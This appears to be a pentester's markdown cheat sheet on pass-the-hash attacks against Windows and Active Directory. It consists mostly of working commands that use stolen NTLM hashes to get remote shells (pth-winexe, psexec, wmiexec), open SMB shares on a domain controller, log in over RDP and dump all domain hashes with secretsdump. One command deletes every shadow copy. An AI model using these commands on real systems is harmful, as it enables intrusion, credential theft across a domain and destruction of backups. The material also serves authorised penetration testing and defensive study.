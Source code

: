 # Pass the hash - reusing hashes

Pass the hash \(PTH\) is a technique that lets the user authenticate by using a valid username and the hash, instead of the unhashed password. So if you have gotten a hold of a hash you might be able to use that hash against another system.

Pass the hash is a suite of different tools.

## SMB

So in order to use pass the hash we first need to put the hash in a env variable using the export command:

So we will authenticate against a smb-service.

```
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896
```

```
pth-winexe -U administrator //192.168.1.101 cmd
```

I think you can run it like this too:

```
pth-winexe -U admin/hash:has //192.168.0.101 cmd
```

### More examples

```
pth-winexe -U ./Administrator%aad3b435b51404eeaad3b435b51404ee:4b579a266f697c2xxxxxxxxx //10.145.X.X cmd.exe
pth-winexe -U EXAMPLE/Administrator%example@123 //10.145.X.X cmd.exe
```

[https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html](https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html)

## More PTH tools and examples

Metasploit

```
use exploit/windows/smb/psexec
set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
```

[https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/)

Command line shell on CORPSQLSERVER01

```
pth-winexe -U corp/user_a%aad3b435b51404eeaad3b435b51404ee:48663e7b299fe3a7047b937804cdc34d –uninstall //corpsqlserver01 cmd.exe
```

 SMB access to CORPDC01

```
pth-smbclient //CORPDC01/c$ -U corp/user_a%aad3b435b51404eeaad3b435b51404ee:48663e7b299fe3a7047b937804cdc34d
```

 Run commands using WMI on CORPDC01

```
wmiexec.py –hashes aad3b435b51404eeaad3b435b51404ee:48663e7b299fe3a7047b937804cdc34d corp/user_a @CORPDC01 “vssadmin delete shadows /all /quiet” > ./NTDSData/rem_shadows.log
```

 Acquire data from Active Directory \(ntds.dit\)

```
secretsdump.py -just-dc-ntlm –user-status –outputfile | ./NTDSData/CORP/ntds20170711-13.05 -hashes aad3b435b51404eeaad3b435b51404ee:48663e7b299fe3a7047b937804cdc34d corp/user_a@corpdc01
```

 Command line shell using psexec on Windows

```
PsExec.exe -accepteula \\ corpsqlserver01 -s -u corp\user_a -p aad3b435b51404eeaad3b435b51404ee:48663e7b299fe3a7047b937804cdc34d cmd.exe
```

[https://www.sans.org/reading-room/whitepapers/testing/cracking-active-directory-passwords-how-cook-ad-crack-37940](https://www.sans.org/reading-room/whitepapers/testing/cracking-active-directory-passwords-how-cook-ad-crack-37940)

## Remote Desktop

```
apt-get update
apt-get install freerdp-x11
```

```
xfreerdp /u:admin /d:win7 /pth:hash:hash /v:192.168.1.101
```

[https://www.kali.org/penetration-testing/passing-hash-remote-desktop/](https://www.kali.org/penetration-testing/passing-hash-remote-desktop/)

